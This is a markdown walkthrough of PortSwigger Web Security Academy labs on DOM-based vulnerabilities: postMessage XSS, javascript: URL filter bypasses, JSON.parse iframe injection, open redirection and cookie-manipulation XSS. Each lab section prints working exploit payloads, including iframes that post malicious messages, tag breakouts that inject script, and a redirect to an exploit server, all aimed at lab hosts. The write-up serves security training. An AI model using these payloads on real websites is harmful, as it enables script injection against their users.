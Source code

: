 # DOM-based vulnerabilities

- https://portswigger.net/web-security/dom-based

## DOM XSS using web messages

No `X-Frame-Options` header that would prevent loading this page in the `iframe` and additionally event listener preset for `message` event without origin verification that passes the input without sanitization to the `innerHtml` function.

Event listener for `message` event is our source, and `innerHtml` function is the sink.

Deliver below payload to the victim to solve the lab. It will load the victim page as an iframe and on load will post a message to all origins, causing vulnerable `message` event listener trigger.

```
<iframe src="https://0aa600ac04c124c89e1a8aa5009800fc.web-security-academy.net/" style="width: 100%; height: 100%;" frameBorder="0" onload='this.contentWindow.postMessage("<img src=X onerror=\"print()\"/>", "*")'></iframe>
```

## DOM XSS using web messages and a JavaScript URL

Same story as before, but this time `message` event listener tries to check whether provided data is the link and update `location.href` by it.

Unfortunately the code shown below does not check whether the provided data starts with `http:` or `https:`, but only if the data contains one of those strings, so it could be bypassed by providing input `javascript:print();//https:`, which when set to `location.href` executes code and calls `print()`

```
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
```

To solve the lab we can deliver `iframe` containing vulnerable page, which onload posts a message which bypasses the `http` schema check and change `location.href` to `javascript:print()` code which calls the `print()` function.  

```
<iframe src="https://0a7200ce03bc3ad48289581c002500f5.web-security-academy.net/" style="width: 100%; height: 100%;" frameBorder="0" onload='this.contentWindow.postMessage("javascript:print();//https:", "*")'></iframe>
```

## DOM XSS using web messages and JSON.parse

Again no origin check and no `X-Frame-Options` type headers.

This time input is provided via json and `JSON.parse` function is called.
On message receival the page would create an `iframe` and depending on `type` key provided it will take different actions. When `type` is set to `load-channel` it sets `url` json value as iframe `src` without any sanitization.

To prove what can be done with it I have created an `iframe` with target website and executed the below command, which proved that when `iframe.src` is set to `javascript:` schema it will execute code. To make sure the code will not be executed in my website context, but in target website context `alert(document.domain)` is called, which proves we execute code in target page context.

```
document.querySelector("iframe").contentWindow.postMessage('{"type":"load-channel","url":"javascript:alert(document.domain)"}', '*')
```

In order to solve the lab we need to make the victim access below page containing vulnerable website in an `iframe` and making apriopriate `postMessage` call causing js execution.

```
<iframe src="https://0a7700ea031731ad82d2bfc000f8002b.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}", "*")'></iframe>
```

## DOM-based open redirection

`Back to blog` link is generated via `onlick` effect, which takes `url` query param without validation and sanitization and passes it to `location.href`. The query will be passed only if param starts with `http`, so it makes using `javascript:` pseudo protocol for code execution unusable.

```
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
```

To solve the lab, we need to access the url with open redirection to exploit server

```
https://0a7f004b034dd93b81637a8000cc00b5.web-security-academy.net/post?postId=7&url=https://exploit-0ad300ad037ad90381cd794e01dc0079.exploit-server.net/
```

## DOM-based cookie manipulation

Product details page contains js code, which sets the cookie value to `windows.location` without any sanitization or validation.

```
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

On the main page, the `lastViewedProduct` cookie is being reflected into the link. Upon changing it to some arbitrary value, like `TEST`, we can observe that the returned page has an `a` tag with `href` value set to `TEST`.

Since the value of the cookie is being reflected on the backend to the link tag, we can try to escape it. By accessing `https://0a5a007d03f480c580c803ff00c6004a.web-security-academy.net/product?productId=1&q='TEST` URL and then navigating to the homepage, we can see, that we break out from the tag with `'` char.

Now, accessing `/product?productId=1&q='autofocus onfocus="print()" x='` and then navigating to the home page, causes `onfocus` `print()` function to be executed immediately, by creating the `a` tag shown below

```
<a href='https://0a5a007d03f480c580c803ff00c6004a.web-security-academy.net/product?productId=1&q='autofocus onfocus="print()" x=''>Last viewed product</a>
```

To solve the lab, deliver to the victim below iframe, which automatically navigates between two sites, causing a `XSS`.

Unfortunately autofocusing `a` tag on `cross-origin` `iframe` was blocked, so to bypass this we can break through not only `a` tag `href` param, but the whole `a` tag itself and, since this is injected server-side, create a new a `script` tag.

```
<iframe src="https://0a5a007d03f480c580c803ff00c6004a.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0a5a007d03f480c580c803ff00c6004a.web-security-academy.net';window.x=1;">
```
